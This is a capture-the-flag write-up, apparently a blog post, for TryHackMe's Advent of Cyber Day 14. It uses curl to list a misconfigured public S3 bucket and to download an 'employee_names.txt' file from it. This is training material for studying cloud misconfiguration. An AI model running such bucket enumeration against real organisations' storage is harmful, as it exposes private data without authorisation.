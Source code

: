 ```yaml
---
title: "Advent of Cyber Day 14 Unknown Storage"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.jpg
excerpt: "Advent of Cyber Day 14 Unknown Storage"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

McElferson opens today's news paper and see's the headline

`Private information leaked from the best festival company`

This shocks her! She calls in her lead security consultant to find out more information about this. How do we not know about our own s3 bucket.

McSkidy's only starting point is a single bucket name: **advent-bucket-one**

Check out the supporting material [here](https://docs.google.com/document/d/13uHBw3L9wdDAFboErSq_QV8omb3yCol0doo6uMGzJWo/edit#).

With the supporting material given by TryHackMe we can use the following commands :

### #1 What is the name of the file you found?

```bash
kali@kali:~$ curl advent-bucket-one.s3.amazonaws.com
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>advent-bucket-one</Name>
<MaxKeys>1000</MaxKeys>
<IsTruncated>false</IsTruncated>
<Contents>
	<Key>"employee_names.txt"</Key>
	<LastModified>2019-12-14T15:53:25.000Z</LastModified>
	<ETag>e8d2d18588378e0ee0b27fa1b125ad58</ETag>
	<Size>7</Size>
	<StorageClass>STANDARD</StorageClass>
</Contents>
</ListBucketResult>
```

### #2 What is in the file?

```bash
kali@kali:~$ curl advent-bucket-one.s3.amazonaws.com/employee_names.txt
"mcchef"
```
